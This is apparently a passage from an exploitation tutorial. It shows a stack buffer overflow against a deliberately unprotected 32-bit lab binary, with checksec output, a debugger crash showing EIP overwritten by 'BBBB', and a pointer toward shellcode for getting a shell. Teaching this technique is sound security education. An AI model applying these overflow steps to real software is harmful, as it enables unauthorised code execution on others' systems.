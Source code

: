     pwndbg> checksec
    [*] '/home/pwnbox/DEP/binary/vuln_no_prots'
        Arch:     i386-32-little
        RELRO:    No RELRO
        Stack:    No canary found
        NX:       NX disabled
        PIE:      No PIE (0x8048000)
        RWX:      Has RWX segments

    pwndbg>  

As we can see we've got fully disabled exploit mitigation techniques.
Also no ASLR whatsoever.
This is only for the sake of shining some light on this particular technique.
Combinations of exploit mitigation techniques will be covered at a later time.


### Exploit
A basic overflow is induced by filling the buffer with the following contents:

    pwndbg> c
    Continuing.
    Hello: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB!

    Program received signal SIGSEGV, Segmentation fault.
    0x42424242 in ?? ()
    LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
    [─────────────────────────────────────────────────────────────────REGISTERS──────────────────────────────────────────────────────────────────]
    *EAX  0x119
     EBX  0x8049838 (_GLOBAL_OFFSET_TABLE_) —▸ 0x804974c (_DYNAMIC) ◂— 1
    *ECX  0xffffccd0 ◂— 0x41414141 ('AAAA')
    *EDX  0xf7fae870 (_IO_stdfile_1_lock) ◂— 0
     EDI  0xf7fad000 (_GLOBAL_OFFSET_TABLE_) ◂— mov    al, 0x5d /* 0x1b5db0 */
     ESI  0xffffce20 ◂— 0x2
    *EBP  0x41414141 ('AAAA')
    *ESP  0xffffcde0 —▸ 0xffffce00 ◂— 0x0
    *EIP  0x42424242 ('BBBB')
    [───────────────────────────────────────────────────────────────────DISASM───────────────────────────────────────────────────────────────────]
    Invalid address 0x42424242


It shows that we have successfully overwritten the `EIP` and `EBP`
The executed [`ret`](http://c9x.me/x86/html/file_module_x86_id_280.html) instruction took the next value off the stack
and loaded that into the  `EIP` register (our 'BBBB') and then code execution tries to continue from there.
So we can fill the buffer with something like `/bin/sh` + `padding`, or try overflowing that position with shell code.
We can craft one ourselves or take an [already nicely prepared shell code from here](http://shell-storm.org/shellcode/)

